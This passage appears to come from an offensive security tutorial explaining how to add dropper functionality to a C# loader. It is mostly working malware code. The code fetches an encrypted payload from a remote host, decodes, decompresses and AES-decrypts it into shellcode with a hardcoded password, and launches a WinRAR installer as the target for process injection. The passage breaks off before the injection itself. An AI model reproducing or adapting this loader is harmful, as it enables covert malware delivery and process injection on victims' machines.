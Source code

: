 - Replace it with the following to add dropper functionality i.e to download, decrypt the shellcode and to spawn the `winrar` installer and inject it into its memory.

```
string location = "http://192.168.0.115/winrar.enc";

Console.WriteLine(location);
HttpWebRequest myWebRequest = (HttpWebRequest)WebRequest.Create(location);
IWebProxy webProxy = myWebRequest.Proxy;
if (webProxy != null)
{
	webProxy.Credentials = CredentialCache.DefaultNetworkCredentials;
	myWebRequest.Proxy = webProxy;
}
HttpWebResponse response = (HttpWebResponse)myWebRequest.GetResponse();
Stream data = response.GetResponseStream();
string html = String.Empty;
using (StreamReader sr = new StreamReader(data))
{
	html = sr.ReadToEnd();
}


Console.WriteLine("-> Done");
Console.Write("[*] Decrypting file in memory... > ");
string Password = "ILoveMythic";
Console.WriteLine();


byte[] decoded = Base64_Decode(html);

byte[] decompressed = Decompress(decoded);
Console.WriteLine(decompressed);
byte[] passwordBytes = Encoding.UTF8.GetBytes(Password);
passwordBytes = SHA256.Create().ComputeHash(passwordBytes);
byte[] bytesDecrypted = AES_Decrypt(decompressed, passwordBytes);
int _saltSize = 4;
byte[] originalBytes = new byte[bytesDecrypted.Length - _saltSize];
for (int i = _saltSize; i < bytesDecrypted.Length; i++)
{
	originalBytes[i - _saltSize] = bytesDecrypted[i];
}
Console.WriteLine(originalBytes);
string decodedresult = System.Text.Encoding.UTF8.GetString(originalBytes);
Console.WriteLine(decodedresult);

Byte[] shellcode = originalBytes;

IntPtr alloc_size = new IntPtr(Convert.ToUInt32(shellcode.Length));

bool started = false;
var p = new Process();

p.StartInfo.FileName = "winrar-x64-611.exe";

started = p.Start();

var procId = p.Id;
Console.WriteLine("ID: " + procId);
int processid = procId;
```

